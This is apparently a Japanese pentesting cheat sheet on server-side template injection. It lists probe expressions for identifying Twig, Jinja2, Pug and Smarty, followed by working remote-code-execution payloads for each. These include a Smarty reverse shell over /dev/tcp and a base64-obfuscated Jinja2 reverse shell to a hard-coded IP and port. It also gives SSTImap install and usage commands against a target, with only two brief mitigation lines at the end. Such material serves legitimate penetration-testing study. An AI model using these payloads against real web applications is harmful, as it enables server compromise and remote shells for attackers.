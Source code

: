# SSTI サーバー側テンプレートインジェクション

## テンプレートの判別

```
# Twig（PHP）
{{7*'7'}} -> 49

# Jinja2（Python）
{{7*'7'}} -> 7777777

# Pug/（旧称 Jade）（Node.js）
#{7*7} -> 49

＃Smarty
{'Hello'|upper} -> HELLO
```

## システムコマンド

### Pug

https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html?highlight=PUG#pugjs-nodejs

javascript コードを直接実行できる

```javascript
#{root.process.mainModule.require('child_process').spawnSync('ls', ['-al']).stdout}

#{global.process.mainModule.require('child_process').spawnSync('ls', ['-al']).stdout}
```

### Smarty

PHP コードを直接実行できる

```PHP
{system("ls")}

{exec("/bin/bash -c 'bash -i >& /dev/tcp/ip/port 0>&1'")}
```

### Jinja2

```Python
# objectクラスのサブクラス一覧
{{"".__class__.__mro__[1].__subclasses__()}}

# <class '_sitebuiltins._Helper'> を使って、
# subprocess.open("ls") を実行
{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(["ls", "-al"])}}

# よりスマートな方法
{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjE0LjkwLjIzNS80NDQ1IDA+JjE=|base64 -d|bash').read()}}
```

## SSTImap 自動化

### インストール

```shell
git clone https://github.com/vladko312/SSTImap.git
cd SSTImap
pip install -r requirements.txt
```

### 実行

```shell
python3 sstimap.py -X POST -u 'http://$TARGET/' -d 'page='
```

## セキュリティ

- ユーザー入力のサニタイズ
- 環境のサンドボックス化

